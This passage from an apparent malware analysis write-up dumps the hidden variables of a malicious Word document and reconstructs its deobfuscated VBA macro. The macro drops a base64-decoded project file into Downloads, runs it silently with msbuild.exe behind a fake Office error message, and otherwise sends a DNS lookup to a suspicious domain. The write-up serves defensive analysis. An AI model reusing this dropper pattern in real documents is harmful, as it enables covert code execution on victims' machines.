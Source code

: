 
### Dumping Document Variables

I couldn’t find a good way to dump document variables using `olevba` or
`oledump`. If you know of one, please leave a comment. So I wrote some VBA to
do it:

    
    
    Sub ListVariables()
    
        For Each avar In ActiveDocument.Variables
          Debug.Print avar.Name & ":" & avar.Value
        Next avar
    
    End Sub
    
    
    
    2018:ter.csproj
    Airport:v3.5
    Bank:\Downloads\
    Beach:ipt.Sh
    Cali:ell
    Fun:PFByb2plY3QgVG9vbHNWZXJz...snip...PC9Db2RlPgogICAgPC9UYXNrPgogIDwvVXNpbmdUYXNrPgo8L1Byb2plY3Q+Cgo=
    LAX:v4.0.30319
    Northern:WScr
    Panic:This application appears to be made on an older version of the Microsoft Office product suite. Visit https://microsoft.com for more information. [ErrorCode: 4439]
    Retail:\Microsoft.NET\Framework\
    Revenue:WordUpda
    Running:d.exe
    Shoes:%userprofile%
    Shrink:\msbuil
    Stores:%systemroot%
    Waves:Microsoft Office Corrupt Application (Compatibility Mode)
    

### Unobfuscated VBA

With the variables in hand, we can now make very readable VBA:

    
    
    Sub WordUpdateCheck()
    
        Dim helper, fso, file, folderPath, filePath, version
        Set helper = CreateObject("WScript.Shell")
        Set fso = CreateObject("Scripting.FileSystemObject")
        folderPath = helper.ExpandEnvironmentStrings("%systemroot%) & "\Microsoft.NET\Framework\v4.0.30319"
        If (fso.FolderExists(folderPath)) Then
            filePath = helper.ExpandEnvironmentStrings("%userprofile%") & "\Downloads\WordUpdater.csproj"
            If Not (fso.FileExists(filePath)) Then
                Set file = fso.CreateTextFile(filePath, True)
                file.Write DecodeBase64([big base64 blob]) & vbCrLf
                file.Close
                helper.Run folderPath & "\msbuild.exe " & filePath, 0, False
                MsgBox "This application appears to be made on an older version of the Microsoft Office product suite. Visit https://microsoft.com for more information. [ErrorCode: 4439]", vbExclamation, "Microsoft Office Corrupt Application (Compatibility Mode)"
            End If
        Else
            helper.Run "nslookup.exe pwdas71.healthservices-dns.com"
        End If
    End Sub
    